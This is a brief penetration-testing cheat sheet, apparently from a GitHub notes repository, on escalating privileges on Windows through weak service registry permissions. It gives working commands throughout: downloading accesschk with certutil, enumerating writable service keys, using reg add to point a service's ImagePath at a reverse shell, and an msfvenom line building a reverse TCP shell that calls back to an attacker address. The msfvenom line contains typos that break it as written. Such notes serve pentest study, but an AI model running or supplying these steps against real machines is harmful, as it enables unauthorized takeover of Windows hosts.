 # Service Exploits - Weak Registry Permissions

Windows Sysinternals can be found:
- https://docs.microsoft.com/en-us/sysinternals/downloads/
- https://live.sysinternals.com/ (better to download direclty)

		certutil -urlcache -f https://live.sysinternals.com/accesschk.exe accesschk.exe

Enumerate for weak registry permissions

`accesschk.exe /accepteula "authenticated users" -kvuqsw hklm\System\CurrentControlSet\services`

The registry showing `KEY_ALL_ACCESS` is vulnerable

Query the registry to see its path by typing 

`reg query <Registry`

Example

`reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\pentest`

Change the path of the registry to the reverse shell

`reg add "HKLM\system\currentcontrolset\services\pentest" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\Public\shell.exe" /f`


Reminder: Generating a reverse shell

`msfvenom –p window/shell_reverse_tcp lhost=192.168.1.3 lport=8888 –f exe > shell.exe`